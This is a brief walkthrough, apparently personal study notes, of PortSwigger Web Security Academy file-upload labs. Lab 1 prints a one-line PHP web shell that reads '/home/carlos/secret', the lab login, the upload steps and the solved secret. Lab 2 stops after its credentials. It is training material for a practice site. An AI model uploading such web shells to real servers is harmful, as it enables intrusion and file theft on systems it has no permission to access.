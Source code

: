 # Lab 1:[ Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

**Targets:**

You can log in to your own account using the following credentials:

```php
'wiener:peter
```

pull it out the contents of the file: =>

```php
'/home/carlos/secret'

```

**Start:**

1. create file:

```php
'exploit.php'
```

content:

```php
'<?php echo file_get_contents('/home/carlos/secret'); ?>'
```

2. **Upload file successfully via site upload functionality**
   (https://0a0800a903188314837dcf4400cd00b1.web-security-academy.net/my-account/avatar)

   test image upload url:
   (https://0aa500b80367987681ca710f007f0010.web-security-academy.net/files/avatars/work1.jpg)

3. **Go to file location ( right click thumbnail and choose _open image in new window_)**
   (https://0a0800a903188314837dcf4400cd00b1.web-security-academy.net/files/avatars/exploit.php)

4. **Copy string and paste in submit button on lab**

```php
'0RmXM4Rgvywsjqy9yZBN0qhbBj9pcLKB'
```

# Lab 2:[ Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

**Targets:**
You can log in to your own account using the following credentials:

```php
"wiener:peter"
```
